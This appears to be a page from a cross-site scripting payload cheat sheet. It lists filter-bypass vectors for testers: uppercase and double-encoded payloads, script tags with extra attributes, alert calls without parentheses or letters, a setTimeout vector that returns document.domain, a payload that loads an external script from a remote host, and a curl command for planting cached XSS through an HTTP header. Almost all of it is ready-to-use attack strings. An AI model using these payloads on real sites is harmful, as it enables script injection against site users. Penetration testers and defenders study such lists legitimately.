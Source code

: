 ## Uppercase XSS
Use when application reflects input in uppercase. Replace `&` with `%26` and `#` with 
`%23` in URLs. 
```
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>
```

## Extra Content for Script Tags
Use when filter looks for `<script>` or `<script src=...` with some variations but without 
checking for other non-required attribute.
```
<script/x>alert(1)</script>
```

## Double Encoded XSS
Use when application performs double decoding of input. 
```
%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
%2522%253E%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
```

## Alert without Parentheses (Strings Only)
Use in an HTML vector or javascript injection when parentheses are not allowed and a 
simple alert box is enough.
```
alert`1`
```

## Alert without Parentheses
Use in an HTML vector or javascript injection when parentheses are not allowed and PoC 
requires to return any target info.
```
setTimeout`alert\x28document.domain\x29`
```


## XSS in HTTP Header - Cached
Use to store a XSS vector in application by using the MISS-MISS-HIT cache scheme 
(if 
there’s one in place)
. Replace <XSS> with your respective vector and TARGET with a dummy
string to avoid the actual cached version of the page. Fire the same request 3 times.
```
$ curl -H "Vulnerable_Header: <XSS>" TARGET/?dummy_string
```


## Alert without Alphabetic Chars
Use when alphabetic characters are not allowed. Following is alert(1).
```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']
('\141\154\145\162\164\50\61\51')()
```
